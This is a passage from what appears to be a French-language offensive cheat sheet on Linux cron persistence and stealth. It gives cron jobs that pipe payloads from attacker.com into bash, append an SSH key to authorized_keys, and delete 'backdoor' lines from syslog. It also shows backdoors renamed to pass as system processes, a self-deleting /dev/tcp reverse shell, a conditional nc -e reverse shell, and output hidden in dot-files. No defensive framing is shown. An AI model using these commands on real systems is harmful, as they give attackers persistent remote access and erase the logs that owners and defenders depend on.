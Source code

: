 ### Téléchargement et Exécution
```bash
# Télécharger et exécuter un payload
*/15 * * * * curl -s http://attacker.com/payload.sh | bash
*/15 * * * * wget -q -O - http://attacker.com/payload.sh | bash
```

### Persistence avec SSH
```bash
# Ajouter une clé SSH (si ~/.ssh/ existe)
*/30 * * * * echo "ssh-rsa AAAAB3NzaC1yc2E..." >> ~/.ssh/authorized_keys
```

## Techniques de Camouflage

### 1. Noms de Fichiers Trompeurs
```bash
# Utiliser des noms de processus légitimes
cp backdoor.sh /tmp/systemd-update
cp malware /usr/local/bin/apt-daily-upgrade
```

### 2. Suppression de Logs
```bash
# Nettoyer les traces dans les logs
*/60 * * * * sed -i '/backdoor/d' /var/log/syslog
```

### 3. Scripts Auto-Destructeurs
```bash
#!/bin/bash
# Script qui se supprime après exécution
bash -i >& /dev/tcp/192.168.1.100/4444 0>&1
rm $0
```

### 4. Vérification de Contexte
```bash
#!/bin/bash
# Ne s'exécuter que si certaines conditions sont réunies
if [ "$(whoami)" = "target_user" ] && [ -f "/tmp/.execute" ]; then
    nc -e /bin/bash 192.168.1.100 4444
fi
```

## Gestion des Erreurs et Discrétion

### Redirection des Sorties
```bash
# Rediriger stdout et stderr vers /dev/null
*/5 * * * * /tmp/backdoor.sh > /dev/null 2>&1

# Rediriger vers un fichier log caché
*/10 * * * * /tmp/malware.sh >> /tmp/.hidden_log 2>&1
```
